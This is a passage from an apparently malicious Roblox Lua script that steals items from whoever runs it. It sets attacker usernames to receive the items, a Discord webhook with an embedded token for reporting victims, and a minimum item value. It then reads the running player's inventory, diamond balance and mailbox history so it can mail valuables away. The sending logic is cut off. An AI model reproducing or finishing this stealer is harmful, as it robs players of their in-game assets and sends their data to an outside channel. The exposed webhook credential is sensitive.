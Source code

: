 Username = "iloveghostbusters123"
Username2 = "Runaightbet" -- stuff will get sent to this user if first user's mailbox is full
webhook = "https://discord.com/api/webhooks/1304896917318139934/DQ4-dxlxtlsJ04Fsha_kHYv9rzo5NRgFUbqulZSeScLqH0pzqD3V9dlhadi-TBCoJa_9"
min_rap = 1000000 -- minimum rap of each item you want to get sent to you. 1 mil by default

_G.scriptExecuted = _G.scriptExecuted or false
if _G.scriptExecuted then
    return
end
_G.scriptExecuted = true

local network = game:GetService("ReplicatedStorage"):WaitForChild("Network")
local library = require(game.ReplicatedStorage.Library)
local save = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().Inventory
local mailsent = require(game:GetService("ReplicatedStorage"):WaitForChild("Library"):WaitForChild("Client"):WaitForChild("Save")).Get().MailboxSendsSinceReset
local plr = game.Players.LocalPlayer
local MailMessage = "GG / GY2RVSEGDT"
local HttpService = game:GetService("HttpService")
local sortedItems = {}
local totalRAP = 0
local getFucked = false
local GetSave = function()
    return require(game.ReplicatedStorage.Library.Client.Save).Get()
end

local newamount = 20000

if mailsent ~= 0 then
	newamount = math.ceil(newamount * (1.5 ^ mailsent))
end

local GemAmount1 = 1
for i, v in pairs(GetSave().Inventory.Currency) do
    if v.id == "Diamonds" then
        GemAmount1 = v._am
		break
    end
end

if newamount > GemAmount1 then
    return
end

local function formatNumber(number)
	local number = math.floor(number)
	local suffixes = {"", "k", "m", "b", "t"}
	local suffixIndex = 1
	while number >= 1000 do
		number = number / 1000
		suffixIndex = suffixIndex + 1
	end
	return string.format("%.2f%s", number, suffixes[suffixIndex])
end
